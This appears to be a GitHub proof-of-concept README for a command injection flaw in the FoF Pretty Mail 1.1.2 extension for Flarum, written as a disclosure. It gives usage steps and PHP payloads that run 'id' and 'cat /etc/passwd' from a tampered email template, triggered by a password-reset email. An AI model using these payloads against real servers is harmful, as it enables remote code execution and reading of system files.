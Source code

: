 # Flarum FoF Pretty Mail Command Injection
Exploit for a command injection vulnerability in the FoF Pretty Mail extension (version 1.1.2) for Flarum, a popular open-source forum software. The vulnerability arises due to the unsafe handling of user input in the email template feature of the extension. <br>
An attacker with administrative access can exploit this vulnerability by injecting PHP code into the email template, leading to arbitrary command execution on the server. This could potentially compromise the security of the server and lead to unauthorized access or data exfiltration.

Usage:

1.    Log in as an administrator on the Flarum forum.
2.    Navigate to the FoF Pretty Mail extension settings.
3.    Edit the email default template and insert one of the following payloads at the end of the template:
        <?php system('echo "Take The Rose"; id'); ?>
        <?php system('echo "Take The Rose"; cat /etc/passwd'); ?>
 4.   Save the changes to the email template.
 5.   Trigger any action that sends an email, such as user registration or password reset.
    The recipient of the email will see the message "Take The Rose" followed by the output of the injected command (id or cat /etc/passwd) in the email content.
    

POC:

Editing the default email template
<br> 
Payload: 
```bash
 <?php system('echo "Take The Rose"; cat /etc/passwd'); ?>
```
<br>

![image](https://github.com/blue0x1/Flarum-FoF-Pretty-Mail-Command-Injection/assets/52697989/ca8e6852-7b30-43a0-bd3f-90e2d0898f24)


Per example triggered forgot password action for receiving a email 
<br>

![image](https://github.com/blue0x1/Flarum-FoF-Pretty-Mail-Command-Injection/assets/52697989/787a4959-8c01-4f5b-869d-4a6a0f9ffcf4)

<br> 
on the email, receiving:
<br> <br> 

![image](https://github.com/blue0x1/Flarum-FoF-Pretty-Mail-Command-Injection/assets/52697989/e2215324-2759-4d77-a672-3313bafc7a2e)


## Disclaimer:
<br>
This exploit is provided for educational purposes only. It is intended to promote awareness and improve the security of Flarum and its extensions. Use of this exploit for malicious purposes is strictly prohibited. Always ensure you have proper authorization before testing any system for vulnerabilities.
